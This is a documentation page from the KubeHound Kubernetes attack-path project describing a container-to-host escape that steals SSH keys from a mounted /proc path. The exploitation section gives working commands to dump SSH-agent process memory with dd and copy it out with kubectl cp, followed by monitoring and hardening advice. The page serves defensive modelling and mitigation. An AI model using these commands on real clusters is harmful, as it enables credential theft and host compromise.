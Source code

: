 ```yaml
---
title: EXPLOIT_HOST_READ
---
```


<!--
id: EXPLOIT_HOST_READ
name: "Read file from sensitive host mount"
mitreAttackTechnique: T1611 - Escape to host
mitreAttackTactic: TA0004 - Privilege escalation
-->

# EXPLOIT_HOST_READ

| Source                                | Destination                 | MITRE ATT&CK                                                        |
| ------------------------------------- | --------------------------- | ------------------------------------------------------------------- |
| [Container](../entities/container.md) | [Node](../entities/node.md) | [Escape to Host, T1611](https://attack.mitre.org/techniques/T1611/) |

Exploit an arbitrary read from a sensitive host path mounted into the container to gain execution on the host.

## Details

If a sensitive host directory is exposed to a container, even as readonly, it can enable an escape to the host. The only example currently modelled is exposing a host volume that contains SSH keys (and assumes that SSH is enabled on the node for SRE activities). In this scenario an attacker can steal the SSH keys from the mounted volume, then SSH directly into the node.

## Prerequisites

Execution within a container with a sensitive host path mounted as readonly.

See the [example pod spec](https://github.com/DataDog/KubeHound/tree/main/test/setup/test-cluster/attacks/EXPLOIT_HOST_READ_TRAVERSE.yaml).

## Checks

Check for interesting mounted volumes in the container as decribed in [VOLUME_DISCOVER](./VOLUME_DISCOVER.md#checks). Specifically:

+ `/etc`, `/root`, `/home`, `/proc` for SSH key material. This enables accessing the node via SSH (which is typically enabled for management functionality)

## Exploitation

Consider the case of an exposed `/proc` mount. We can attempt to steal SSH keys directly from the process memory of the SSH agent. First identify the target process by dumping all process info via:

```bash
find /proc -maxdepth 2 -wholename '/proc/[0-9]*/status'  | xargs cat > process-list.txt
```

Once the target PID has been retrieved, dump the process memory by reading `/proc/${PID}/mem`:

```bash
procdump()
( 
    cat /proc/$1/maps | grep -Fv ".so" | grep " 0 " | awk '{print $1}' | ( IFS="-"
    while read a b; do
        dd if=/proc/$1/mem bs=$( getconf PAGESIZE ) iflag=skip_bytes,count_bytes \
           skip=$(( 0x$a )) count=$(( 0x$b - 0x$a )) of="$1_mem_$a.bin"
    done )
)
```

then exfiltrate the memory dump to an attacker machine using `kubectl cp` (or any other mechanism):

```bash
kubectl cp ${NAMESPACE}/${PODNAME}:/mem.bin ./mem.bin
```

Finally extract any SSH keys offline from memory using the [ssh-grab](https://github.com/NetSPI/sshkey-grab/blob/master/parse_mem.py) python script.

### Monitoring

+ Monitor for access to sensitive host files (e.g SSH keys) originating from container processes

### Implement security policies

Use a pod security policy or admission controller to prevent or limit the creation of pods with a `hostPath` mount of `/` or other sensitive locations.

### Least Privilege

Avoid running containers as the `root` user. Enforce running as an unprivileged user account using the `runAsNonRoot` setting inside `securityContext` (or explicitly setting `runAsUser` to an unprivileged user). Additionally, ensure that `allowPrivilegeEscalation: false` is set in `securityContext` to prevent a container running as an unprivileged user from being able to escalate to running as the `root` user.

## Calculation

+ [ExploitHostRead](https://github.com/DataDog/KubeHound/tree/main/pkg/kubehound/graph/edge/exploit_host_read.go)

## References:

+ [Stealing SSH Keys From Memory](https://www.netspi.com/blog/technical/network-penetration-testing/stealing-unencrypted-ssh-agent-keys-from-memory/)
+ [Dump Linux Process Memory to File](https://serverfault.com/questions/173999/dump-a-linux-processs-memory-to-file)
